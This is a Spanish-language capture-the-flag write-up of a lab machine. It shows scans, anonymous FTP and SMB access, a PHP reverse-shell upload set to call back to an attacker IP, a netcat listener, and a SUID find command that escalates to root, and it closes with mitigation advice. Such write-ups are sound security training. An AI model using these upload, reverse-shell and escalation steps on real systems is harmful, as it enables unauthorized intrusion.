## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**Autor**|elc0ket|

## Técnicas usadas

- Enumeración de servicios
- Fuzzing web
- FTP anónimo (Anonymous Login)
- Acceso SMB no autenticado (Null Session)
- Subida de archivos sin restricciones (Unrestricted File Upload)
- Web Shell / Reverse Shell (PHP)
- Escalada de privilegios vía binario SUID (GTFOBins)

## Reconocimiento

Escaneo inicial de puertos con `nmap`:

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



Enumeración de versiones y scripts por defecto:


```bash
nmap -p 21,22,25,80,139,445 -sC -sV -oN allports 172.17.0.2
```

Puntos destacados del resultado:

- **FTP (21)**: vsftpd, con **login anónimo permitido**.
- **SSH (22)**: OpenSSH 6.7p1 sobre Debian 8 (obsoleto).
- **SMTP (25)**: Exim 4.84.
- **HTTP (80)**: Apache 2.4.10, título _"Soporte IT - Legacy Systems"_.
- **SMB (139/445)**: Samba 4.2.14-Debian, comparte `Public` con acceso `READ ONLY` sin autenticación.

## Enumeración FTP

Login anónimo:

```bash
ftp 172.17.0.2
# Name: anonymous
# Password: (vacío)
```



Ficheros disponibles:

- `welcome.msg` → banner sin información sensible.
- `pub/LEEME.txt` → mensaje genérico ("Este servidor es solo para uso interno").

No se obtienen credenciales, pero confirma que el servidor forma parte de un entorno "legacy" interno, coherente con lo visto en HTTP y SMB.

## Enumeración SMB

```bash
smbmap -H 172.17.0.2
```



Conexión anónima al recurso `Public`:


```bash
smbclient //172.17.0.2/Public -N
```



Se descarga `log.txt`, cuyo contenido es simplemente:



Otra pista más de que la máquina está simulando una infraestructura antigua nunca migrada — útil como contexto, pero sin impacto directo en la explotación.

## Enumeración Web



La web en el puerto 80 aloja un **sistema de tickets de soporte interno** (v1.4) con un formulario que permite:

- ID de empleado
- Descripción
- **Adjuntar captura de error** (subida de archivo)

El código fuente no revela nada relevante, así que se procede a buscar rutas ocultas:

```bash
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html
```



`/uploads/` está expuesto con **listado de directorio habilitado**




En `/user.txt` contiene directamente la flag de usuario:



Esto ya adelanta el vector: el endpoint `/upload.php` probablemente no valida correctamente el tipo de archivo subido.

## Explotación: Unrestricted File Upload

### Prueba de concepto

```
nano text.php

TEST
```

Se sube un archivo `test.php` con contenido trivial a través del formulario de tickets:



Respuesta del servidor:




Al visitar `http://172.17.0.2/uploads/test.php`, el contenido se ejecuta/muestra sin ninguna restricción — confirma que **no hay validación de extensión ni de tipo MIME**, y que `/uploads/` es directamente ejecutable por Apache.

### Subida de la reverse shell

Se utiliza la clásica **PHP Reverse Shell de pentestmonkey**, modificando IP y puerto:

```php
$ip = '192.168.241.128';  // IP de atacante
$port = 1234;              // Puerto de escucha
```



Subida vía el mismo formulario:



Se pone en escucha un listener:

```bash
nc -lvnp 1234
```

Y se dispara la ejecución accediendo a `http://172.17.0.2/uploads/shell.php`.

### Shell obtenida



### Tratamiento de la TTY

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

## Escalada de Privilegios

Enumeración estándar: `home` sin nada de interés, y `sudo -l` no disponible en el sistema (`sudo: command not found`).

Se buscan binarios con bit **SUID**:

```bash
find / -perm -4000 2>/dev/null
```

Entre los resultados destaca:



`find` con SUID es un vector de escalada bien conocido en **GTFOBins**, ya que permite ejecutar comandos arbitrarios con los privilegios del propietario del binario (root):

```bash
www-data@831394b8e8f7:/$ /usr/bin/find . -exec /bin/bash -p \;
```

```
bash-4.3# whoami
```



```
bash-4.3# cd /root
bash-4.3# cat flag.txt
```


## Flags

```
user_flag{upl0ad_vuln_succ3ss}
root_flag{gtfobins_suid_privesc_win}
```

## Conclusión

Cadena de explotación clásica de máquina "legacy":

1. **Reconocimiento** revela servicios desactualizados y accesos anónimos (FTP, SMB) que sirven de contexto pero no como vector directo.
2. **Enumeración web** descubre un formulario de subida de archivos sin validación de tipo/extensión.
3. **Unrestricted File Upload** permite subir una web shell PHP y obtener ejecución remota de código como `www-data`.
4. **Escalada de privilegios** trivial gracias a un binario SUID (`find`) mal configurado, documentado en GTFOBins.

### Medidas de Mitigación

- Validar subida de archivos por **contenido real** (magic bytes), no solo por extensión, y servir `/uploads/` desde un directorio sin permisos de ejecución.
- Revisar periódicamente binarios con bit SUID; `find`, `cp`, `bash` con SUID son errores de configuración recurrentes y fáciles de auditar.
- Los servicios "legacy" con acceso anónimo (FTP/SMB) deben eliminarse o restringirse aunque no parezcan explotables por sí solos: aportan reconocimiento gratuito al atacante.


Writeup: Legacy Intranet Server (whoami-labs)

FTP/SMB anónimos + Unrestricted File Upload → reverse shell PHP + SUID privesc (find) vía GTFOBins → root 

Writeup completo en GitHub 👇  
https://github.com/elc0ket/ctf-writeups/tree/main/whoami-labs

#HackingEtico #CTF #InfoSec